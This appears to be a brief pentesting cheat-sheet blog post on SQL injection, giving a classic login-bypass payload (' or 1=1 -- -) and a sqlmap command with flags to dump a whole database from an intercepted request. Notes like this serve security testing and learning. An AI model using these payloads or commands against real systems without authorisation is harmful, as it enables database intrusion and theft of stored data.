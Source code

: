 ```yaml
---
layout: post 
author: Edwards
date: 2020-11-15 
title: SQL 
math: true
---
```



## Basic SQL Injection
```bash
' or 1=1 -- -
```

## Use sqlmap to dump a database
_sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers._

```bash
sqlmap -r <text.txt> --dbms=mysql --dump
```

- -r use a request intercept with BurpSuite (search request per exemple) 
- -dmbs tells SQLMap what type of database management system it is
- -dump attempts to outputs the entire database
